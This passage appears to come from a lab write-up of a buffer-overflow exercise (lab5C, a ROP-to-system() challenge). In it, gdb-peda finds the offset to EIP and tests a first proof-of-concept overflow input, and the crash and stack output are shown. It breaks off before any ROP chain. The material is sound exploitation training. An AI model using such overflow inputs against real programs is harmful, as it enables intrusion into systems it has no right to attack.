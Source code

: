 
It **segfault**, good. Now we can look for the pattern in memory.

```nasm
gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 165
EBX+0 found at offset: 149
EDI+0 found at offset: 157
EBP+0 found at offset: 161
ESI+0 found at offset: 153

...[snip]...
```

**EIP** seems to be at offset **165**, let's build the first proof of concept.

```nasm
gdb-peda$ r < <(python -c "print('A' * 165 + 'BBBB' + 31 * 'C')")
Starting program: /levels/lab05/lab5C < <(python -c "print('A' * 165 + 'BBBB' + 31 * 'C')")
I included libc for you...
Can you ROP to system()?

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x20 (' ')
EBX: 0x41414141 ('AAAA')
ECX: 0x0
EDX: 0x804a060 ('A' <repeats 128 times>)
ESI: 0x41414141 ('AAAA')
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff620 ("AAAAABBBB", 'C' <repeats 31 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff620 ("AAAAABBBB", 'C' <repeats 31 times>)
0004| 0xbffff624 ("ABBBB", 'C' <repeats 31 times>)
0008| 0xbffff628 ("B", 'C' <repeats 31 times>)
0012| 0xbffff62c ('C' <repeats 28 times>)
0016| 0xbffff630 ('C' <repeats 24 times>)
0020| 0xbffff634 ('C' <repeats 20 times>)
0024| 0xbffff638 ('C' <repeats 16 times>)
0028| 0xbffff63c ('C' <repeats 12 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```

Hum, it seems that we are a bit off. Let's check the stack and try to fix that.

```nasm
gdb-peda$ x/32wx $esp
0xbffff620: 0x41414141  0x42424241  0x43434342  0x43434343
0xbffff630: 0x43434343  0x43434343  0x43434343  0x43434343
0xbffff640: 0x43434343  0x43434343  0x00000000  0x00000000
0xbffff650: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff660: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff670: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff680: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff690: 0x00000000  0x00000000  0x00000000  0x00000000
```
